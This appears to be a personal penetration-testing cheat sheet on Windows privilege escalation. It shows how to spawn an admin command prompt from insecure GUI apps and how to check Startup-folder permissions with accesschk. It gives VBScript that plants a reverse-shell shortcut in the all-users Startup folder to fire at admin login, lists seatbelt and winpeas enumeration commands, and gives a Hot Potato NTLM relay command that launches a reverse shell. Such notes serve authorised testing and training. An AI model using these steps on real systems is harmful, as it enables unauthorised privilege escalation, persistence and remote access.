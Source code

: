 # inescure gui apps
in older versions of windows users could be allowed to run GUI apps with admin priviledges
checking if program is running under admin priv
```
>tasklist /V | findstr PROGRAM_NAME.exe
```
can be used to spawn admin cmd
File -> Open -> "file://c:/windows/system32/cmd.exe"
another example: "Windows Help and Support" (Windows + F1), search for "command prompt", click on "Click to open Command Prompt"

# startup apps
windows dir for startup apps for all users
"C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp"
if we can create files in this directory we can place a reverse shell which will execute when the admin logs in.
check directory with accesschk
```
> .\accesschk.exe /accepteula -d "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp"
```
files in directory must be shortcuts (link files)
use VBScript to create shortcut
```vbs
Set oWS = WScript.CreateObject("WScript.Shell")
sLinkFile = "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp\reverse.lnk"
Set oLink = oWS.CreateShortcut(sLinkFile)
oLink.TargetPath = "C:\PATH\TO\REVERSE.exe"
oLink.Save
```
run using cscript
```
> cscript VBSCRIP_NAME.vbs
```
wait for admin to login while listener is running

# installed apps
generally, vulnerabilities in installed apps could be placed into one of the previous covered categories
can use seatbelt to search for non-standard processes
```
> .\seatbelt.exe NonStandardProcesses
```
or winpeas
```
> .\winpeas.exe processinfo (procesinfo if using older verison)
```

# hot potato
NTLM relay attack, works on windows 7, 8, early 10 (patched in windows 10)
```
> .\potato.exe -ip VICTIM.IP.HERE -cmd "C:\PATH\TO\REVERSE.EXE" -enable_http_server true -enable_defender true -enable_spoof true -enable_exhaust true
```
